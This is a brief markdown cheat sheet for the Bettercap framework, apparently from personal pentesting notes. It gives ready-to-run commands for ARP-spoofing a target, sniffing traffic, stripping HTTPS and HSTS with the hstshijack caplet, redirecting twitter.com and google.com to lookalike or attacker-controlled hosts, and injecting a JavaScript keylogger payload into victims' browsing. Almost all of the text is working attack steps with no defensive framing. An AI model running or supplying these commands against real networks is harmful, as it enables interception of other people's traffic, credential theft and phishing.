# Bettercap

Framework to run network attacks, can be used to:

* ARP Spoofing
* MITM Sniff data
* Bypass HTTPS / HSTS
* Redirect domain requests (DNS Spoofing)
* Code Injection
* More!

```
bettercap iface [INTERFACE]
```

## MITM Example attack

```
bettercap iface [INTERFACE]
net.probe on
net.recon.on

// Start MITM attack with APR Spoofing
set arp.spoof.fullduplex true
set arp.spoof.targets <TARGET_IP>
arp.spoof on

// Analyse traffic
net.sniff on
```

## Caplets (Custom scripts)

You can save your bettercap actions in scripts called "_Caplets_" (`.cap` files).

```
bettercap -iface [INTERFACE] -caplet [CAPLET.CAP]
```

### Installed caplets

```
caplets.show
```

### HTTPS Bypass: hstshijack caplet

Caplet to _bypass HTTPS_.

Add option before `net.sniff on`:

```
// Sniff all data, including local, because with this caplet
// downgraded HTTPS data will be sent as if it is coming from
// our machine.
set net.sniff.local true
```

And then run from bettercap cli:

```
hstshijack/hstshijack
```

### HSTS Bypass: hstshijack caplet

if we want to replace urls, we can add the following to the `hstshijack.cap`:

```
set hstshijack.targets      twitter.com, *.twitter.com, etc...
set hstshijack.replacements twitter.corn, *.twiter.com, etc...

set dns.spoof.domains       twitter.corn, *.twiter.com, etc...
```

## DNS Spoofing

You can redirect a request for a server, to another server (such as your own Apache web server). By default, if no `host` is defined, it will map to your IP address.

```
bettercap -iface [INTERFACE] -capet /root/spoof.cap
set dns.spoof.all true
set dns.spoof.domains google.com, *.google.com // etc
dns.spoof on
```

## Code Injection (Javascript): hstshijack

We will use _hstshijack_ caplet.

Add the option:

```
set hstshijack.payloads     <DOMAINS>:<PAYLOAD_LOCATION>,etc...
set hstshijack.payloads     *:/usr/share/payloads/keylogger.js
```


